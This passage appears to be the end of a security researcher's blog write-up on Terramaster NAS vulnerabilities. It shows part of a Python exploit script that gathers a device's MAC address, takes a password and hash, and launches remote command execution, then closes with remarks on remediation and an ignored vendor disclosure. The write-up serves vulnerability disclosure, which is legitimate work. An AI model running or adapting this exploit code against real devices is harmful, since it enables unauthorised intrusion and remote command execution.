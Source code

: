 ```python
        print(meow)
        exit(0)

    #MAC INFO DISCLOSURE
    try:
        MAC_ADDRESS = RE.findall(s.get(f"{TARGET}/m1.php").text)[0].replace(":","")
    except IndexError:
        try:
            MAC_ADDRESS = RE.findall(s.get(f"{TARGET}/m2.php").text)[0].replace(":","")
        except IndexError:
            print("[!] MAC not found.")
            exit(1)
    print(f"[*] Found MAC: {MAC_ADDRESS}")
    

    PASS = args.password
    HASH = args.hash
    if PASS == "":
        print("[!] User password is required to launch exploit, use --password.")
        exit(1)
    if HASH == "":
        print("[!] User hash is required to launch exploit, use -g or --get-hash to get a valid hash.")
        exit(1)  
    
    print(f"[*] Using password: {PASS}")
    print(f"[*] Using hash: {args.hash}")
    exploit(s, USER, args.hash, args.rce, args.cmd)
```

## Goodbye, my friends
I guess I will now take a break from breaking Terramaster (put intended), it stopped being fun - at least for now. It's basically a metasploitable, but you pay for it.

As for the remediations, this time you really can't do much other than wait for a patch and use strong passwords.
Protip for terramaster: if researchers try to get in touch with you via twitter and via your support mail and your support chat, do not ignore them :).

As a side note, if any "researcher" uses my work it'd be cool if y'all at least mentioned me. Just saying.

